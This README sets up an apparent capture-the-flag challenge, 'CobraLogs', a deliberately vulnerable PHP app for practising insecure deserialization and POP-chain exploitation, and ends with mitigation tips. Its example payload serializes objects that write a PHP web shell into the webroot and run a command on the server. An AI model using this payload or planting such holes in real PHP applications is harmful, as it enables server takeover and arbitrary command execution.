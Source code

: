 # CobraLogs: Admin Backdoor CTF Challenge

## Overview
CobraLogs is a logging application designed to demonstrate the concept of PHP insecure deserialization and property-oriented programming (POP) chain exploits. The application allows users to export their activity logs in a serialized format, which can be manipulated to execute arbitrary commands on the server.

## Project Structure
```
cobralogs-ctf
├── public
│   ├── index.php
│   └── logs
|   └── tmp
├── Dockerfile
└── README.md
```

## Setup Instructions
1. **Clone the Repository**
   ```
   git clone <repository-url>
   cd insecure_deserialization-Medium-Hard
   ```

2. **Build the Docker Image**
   ```
   sudo docker build -t cobralogs-ctf .
   ```

3. **Run the Docker Container**
   ```
   sudo docker run -d -p 80:80 cobralogs-ctf
   ```

4. **Access the Application**
   Open your web browser and navigate to `http://localhost`.

## Challenge Details
### Title: CobraLogs: Admin Backdoor
- **Category**: Web Exploitation
- **Difficulty**: Medium-Hard

### Description
The application allows users to export their logs in a serialized format. However, it is vulnerable to insecure deserialization, allowing an attacker to craft a malicious payload that can execute arbitrary commands on the server.

### Exploit Workflow
1. **Discover the Hidden Class**: The application uses PHP's `unserialize()` function without validation, allowing for the exploitation of the `AdminBackdoor` class.
2. **Craft a Payload**: Create a serialized object that includes a `Logger` object to write a web shell and an `AdminBackdoor` object to execute commands.
3. **Send the Payload**: Use a tool like `curl` to send the crafted payload to the `export_logs.php` endpoint.

### Example Payload
```php
$logger = new Logger();
$logger->filename = "/var/www/html/shell.php";
$logger->content = "<?php system(\$_GET['cmd']); ?>";

$backdoor = new AdminBackdoor();
$backdoor->cmd = "cat /flag > /var/www/html/flag.txt";

$payload = [$logger, $backdoor];
echo base64_encode(serialize($payload));
```

## Mitigation Tips
- Avoid using `unserialize()` on user input.
- Use safer alternatives like `json_encode()` and `json_decode()`.
- Implement strict validation and sanitization of user inputs.

## License
This project is for educational purposes only. Use it responsibly and ethically.
